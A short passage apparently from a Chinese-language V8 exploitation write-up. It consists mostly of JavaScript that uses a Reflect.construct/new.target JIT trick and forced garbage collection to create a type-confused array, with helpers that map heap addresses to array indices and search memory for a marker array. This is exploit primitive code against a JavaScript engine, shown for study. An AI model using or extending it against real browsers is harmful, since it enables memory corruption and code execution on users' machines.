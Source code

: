 于是到这里：

```js
//corruptedArr elements: 0x014300000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS] 有符号整数

var emptyAddr = 0x219;

  

function getOffset(addr) {
    return (addr - emptyAddr) / 4 - 1;
}

function indexToAddr(idx) {
    return (idx + 1) * 4 + emptyAddr;
}

  

var cnt = 0;

function searchDblArrIndex(startAddr, corruptedArr, limit) {
    var startIndex = getOffset(startAddr);
    var end = getOffset(limit);
    for (let idx = startIndex; idx < end; idx += 1) {
        cnt = cnt + 1;
      if (corruptedArr[idx] == 0x40504000 / 2 && corruptedArr[idx + 2] == 0x40508000 / 2) {
        return idx;
      }
    }
  }

var view = new ArrayBuffer(24);

class A {}
var x = Array;
class B extends A {
  constructor() {
    x = new.target;
    super();
  }
}

function construct() {
  var r = Reflect.construct(B, [], x);
  return r;
}


for (let i = 0; i < 2000; i++) {
    construct(); //多次分配，让JIT形成优化路径
}
 

var gcSize = 0x4fe00000;
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
//垃圾回收

//创建类型混淆的Array
var corruptedArr = construct();
corruptedArr = construct();
corruptedArr = construct();
%DebugPrint(corruptedArr);
```